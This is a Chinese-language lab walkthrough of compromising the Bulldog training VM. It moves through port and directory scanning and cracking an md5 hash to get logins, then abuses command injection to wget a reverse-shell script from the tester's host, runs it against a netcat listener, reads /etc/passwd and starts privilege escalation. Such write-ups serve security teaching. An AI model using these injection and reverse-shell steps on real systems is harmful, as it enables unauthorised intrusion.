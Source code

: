 # Bulldog网站渗透

@[toc]
## 1.渗透思路

进行信息收集，根据开放的端口以及服务，寻找可行的渗透方法

1. 在未知目标主机的情况下，使用`netdiscover`主机发现获得主机IP地址
2. 得到主机的IP地址后，使用`masscan`进行快速的端口扫面
3. 根据扫描到的开放端口，使用`nmap`进行端口服务以及系统扫描
4. 获得端口以及服务信息后，使用`dirb`行网站目录的扫描，尝试对扫描出的网页进行登陆，寻找有价值的信息
5. 扫描网站的指纹信息，使用`whatweb`扫描识别web软件、后端服务器、编程语言

接下来是根据具体情况作出的渗透判断

**对端口扫描后**

* 如果发现开放了22端口，且启用了ssh，这时候可以尝试使用`metasploit farmework`的ssh_login模块，对ssh的账号进行暴力破解
* 如果发现开放了139和445端口，开启了smbd共享服务，可以使用`enum4linux`，枚举主机的samben服务，查找可用连接的用户名和密码，再使用`mount`挂载的方式连接web服务器，在web服务器中文件中找有用的信息，比如用户名和密码

**对网页目录扫描后**

* 尝试访问网页目录，除了收集有用的信息，也要留心可能存在的sql注入点，命令执行点，文件上传点，文件包含点，必要时可以对页面进行元素审查来寻找有用的信息

**对网页指纹扫描后**

* 通过对网站web软件、后端服务器、编程语言、框架的类型与版本判断，来推测可能存在的已知漏洞，可以通过复现的方式利用这些漏洞

> 在得到用户名和密码后，注意要进行多次尝试在其他地方登陆，因为有可能使用一套账户密码的情况

## 测试环境

目标靶机：IP地址未知

测试机：IP 192.168.72.129

## 测试步骤


### 1.信息收集

#### 主机发现

使用  ` netdiscover -i eth0 -r 192.168.72.0/24 `  对192.168.72.0网段进行主机发现。==netdiscover： -i 指定网卡 -r 指定网段==![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/201912132115172.png)

其中，192.168.72.1 、192.168.72.2、192.168.72.254分别为物理机的虚拟网卡和虚拟机网关地址，因此可以发现192.168.72.139是目标靶机地址

> 在使用nmap进行主机发现时，会扫描出本机的IP地址，而netdiscover则不会扫描出本机IP地址 

#### 端口扫描

使用 ` masscan --rate=100000 --ports 0-65535 192.168.72.139 ` 进行端口扫面==masscan --rate=每秒多少个数据包 --ports 端口范围  IP地址/IP地址段== ![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213211610875.png)
>这里使用masscan是因为扫描开放端口速度快，在得到开放端口后需要使用nmap进行进一步扫描。为了防止漏扫，可以用masscan多扫几次。

#### 操作系统扫描

使用 ` nmap -sV -T4 -O -p 23,80,8080 192.168.72.139 ` 进一步扫描操作系统信息

```
-T4		指定扫描过程中使用的时序（分为0-5等级）；
-sV		扫描版本的信息和开启的服务；
-O		扫描操作系统信息
-p		指定端口

也可以选择带-A参数，详细扫描开放端口的具体服务；
```

![](【渗透项目】靶机Bulldog渗透过程.assets/20191213211628382.png)可以发现192.168.37.141主机开启了23（ssh服务），80（http服务）8080（http）端口；

### 2.漏洞探测

访问目标地址 192.168.72.139![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213211722476.png)

尝试点击 Bulldog Industries  后依然是主页

尝试点击 Public Nitice 跳转到新页面![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/2019121321174183.png)
 从上文发现，该站点曾被攻击过，未发现其他有价值的信息，下面开始使用工具进行查找

#### 网站指纹信息扫描

使用` whatweb http://192.168.72.139 ` 扫描网站信息
![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/2019121321182681.png)


* Web指纹扫描用于识别目标所运行的web软件、后端服务器、编程语言等特征，实现对目标的web应用的准确标识。
* 应用名称（版本）、服务器软件（版本）、编程语言（版本）、应用框架（版本）四大特征的识别。

#### 目录扫描

使用 ` dirb http://192.168.37.141 `   扫描网站目录（扫描网站目录，默认使用普通字典 ）

```
dpkg -L dirb 查找字典
dirb http:// <ip> 字典路径（指定字典扫描）

扫描Web目录，可以发现潜在的渗透目标；
发现/admin/auth/group , /admin/auth/user , /admin/login , /dev/shell 等目录；
该工具根据用户提供的字典，对目标网站目录进行暴力猜测。尝试以递归方式进行爆破，以发现更多的路径
```
![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213211925105.png)

### 3.信息利用

**使用浏览器登陆扫描网站目录**

`http://192.168.72.139/admin`![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212004593.png)

发现网站的登录页面

尝试弱口令登录，没有成功

尝试SQL注入，没有成功

这里可以尝试使用暴力破解登录账号和密码

`http://192.168.72.139/dev/`![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212155867.png)

可以看出该页面是面向bulldog承包商的非公开页面，得到有价值的信息是bulldog曾被haker脏牛提权，php会从服务器上删除，新网站会使用Django语言编写，系统上启用了ssh，还有该网站员工的邮箱地址![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212058565.png)

点击webshell，进入一个新的页面，但需要认证才能访问![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212251340.png)

尝试对`http://192.168.72.139/dev/`进行页面的元素审查，在员工的邮箱处发现可疑点![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212319161.png)
![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212411218.png)
在md5解码网站上进行解密
![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/2019121321242283.png)
根据收集到的信息分析可以猜测用户名和密码

username：nick；password：bulldog

usernam：sarah；password：bulldoglover

 **尝试进行登录主页** 

试着尝试使用猜测的密码登陆![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212455431.png)

都尝试登陆成功，可惜权限比较低
![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212510711.png)
用登陆后的账号访问shell界面，成功访问
![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213212544326.png)
因为存在一个命令执行窗口，尝试命令执行漏洞，在指定命令后面连接了一个非指定的linux命令![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/2019121321261843.png)
发现确实存在命令执行漏洞
### 4.漏洞利用

在kali的网页服务的根目录下准备好反弹shell的python脚本
![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213214045784.png)
 在Kali上执行`python -m SimpleHTTPServer 80`，开启Web服务![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213214116731.png)

在bulldog网站的shell页面下执行
`pwd|wget http://192.168.72.129/getshell.py`![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213214147832.png)

在kali上输入 `nc -vnlp 1234`监听1234端口，为反弹shell做准备![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213214210756.png)
利用命令执行漏洞，在webshell上执行运行getshell.py程序的命令 `ifconfig|python getshell.py` ![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/2019121321424264.png)

进入kali，发现获得该网站的shell![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213214643395.png)

### 5.权限提升

可以在kali上输入`cat /etc/passwd` 或 利用命令执行漏洞直接查看用户名![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213214921410.png)
![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213214940685.png)
进入用户bulldogadmin的家目录下，查看家目录下的文件，发现一个隐藏目录 .hiddenadmindirectory![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213215017939.png)

进入.hiddenadmindirectory，并查看文件![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213215038274.png)
直接cat custompermissionapp会发现乱码，因此使用`strings` 打开。==strings是用来提取和显示非文本文件中的文本字符串==![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213215848714.png)

根据以上信息猜测密码可能是： SUPERultimatePASSWORDyouCANTget 

 用python命令打开一个新的终端，尝试进行提权 ![在这里插入图片描述](【渗透项目】靶机Bulldog渗透过程.assets/20191213215827914.png)